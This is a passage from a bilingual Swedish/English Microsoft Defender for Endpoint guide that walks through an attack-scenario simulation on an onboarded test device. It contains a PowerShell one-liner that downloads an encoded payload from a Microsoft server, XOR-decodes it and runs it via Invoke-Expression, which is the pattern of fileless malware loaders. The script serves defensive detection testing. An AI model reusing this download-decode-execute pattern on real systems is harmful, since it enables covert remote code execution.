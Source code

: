   1. <span data-ttu-id="01b9c-146">Kontrollera att testenheten är [onboarded till Microsoft Defender för Slutpunkt).](https://docs.microsoft.com/windows/security/threat-protection/microsoft-defender-atp/configure-endpoints)</span><span class="sxs-lookup"><span data-stu-id="01b9c-146">Verify that the test device is [onboarded to Microsoft Defender for Endpoint)](https://docs.microsoft.com/windows/security/threat-protection/microsoft-defender-atp/configure-endpoints).</span></span>

<span data-ttu-id="01b9c-147">Om du använder en befintlig klientorganisation och implementerar enhetsgrupper skapar du en dedikerad enhetsgrupp för testenheten och pushar den till den översta nivån i konfigurations-UX.</span><span class="sxs-lookup"><span data-stu-id="01b9c-147">If you use an existing tenant and implement device groups, create a dedicated device group for the test device and push it to top level in configuration UX.</span></span>

## <a name="run-the-attack-scenario-simulation"></a><span data-ttu-id="01b9c-148">Simulera attackscenariot</span><span class="sxs-lookup"><span data-stu-id="01b9c-148">Run the attack scenario simulation</span></span>

<span data-ttu-id="01b9c-149">Så här kör du simuleringen av attackscenariot:</span><span class="sxs-lookup"><span data-stu-id="01b9c-149">To run the attack scenario simulation:</span></span>

1. <span data-ttu-id="01b9c-150">Logga in på testenheten med testanvändarkontot.</span><span class="sxs-lookup"><span data-stu-id="01b9c-150">Log in to the test device with the test user account.</span></span>

2. <span data-ttu-id="01b9c-151">Öppna ett Windows PowerShell-fönster på testenheten.</span><span class="sxs-lookup"><span data-stu-id="01b9c-151">Open a Windows PowerShell window on the test device.</span></span>

3. <span data-ttu-id="01b9c-152">Kopiera följande simuleringsskript:</span><span class="sxs-lookup"><span data-stu-id="01b9c-152">Copy the following simulation script:</span></span>

   ```powershell
   [Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12;$xor
   = [System.Text.Encoding]::UTF8.GetBytes('WinATP-Intro-Injection');$base64String = (Invoke-WebRequest -URI "https://winatpmanagement.windows.com/client/management/static/MTP_Fileless_Recon.txt"
   -UseBasicParsing).Content;Try{ $contentBytes = [System.Convert]::FromBase64String($base64String) } Catch { $contentBytes = [System.Convert]::FromBase64String($base64String.Substring(3)) };$i = 0;
   $decryptedBytes = @();$contentBytes.foreach{ $decryptedBytes += $_ -bxor $xor[$i];
   $i++; if ($i -eq $xor.Length) {$i = 0} };Invoke-Expression ([System.Text.Encoding]::UTF8.GetString($decryptedBytes))
   ```

   > [!NOTE]
   > <span data-ttu-id="01b9c-153">Om du öppnar det här dokumentet i en webbläsare kan du stöta på problem med att kopiera hela texten utan att förlora vissa tecken eller introducera extra radbrytningar.</span><span class="sxs-lookup"><span data-stu-id="01b9c-153">If you open this document on a web browser, you might encounter problems copying the full text without losing certain characters or introducing extra line breaks.</span></span> <span data-ttu-id="01b9c-154">Hämta dokumentet och öppna det på Adobe Reader.</span><span class="sxs-lookup"><span data-stu-id="01b9c-154">Download this document and open it on Adobe Reader.</span></span>

4. <span data-ttu-id="01b9c-155">När du uppmanas till det klistrar du in och kör det kopierade skriptet.</span><span class="sxs-lookup"><span data-stu-id="01b9c-155">At the prompt, paste and run the copied script.</span></span>
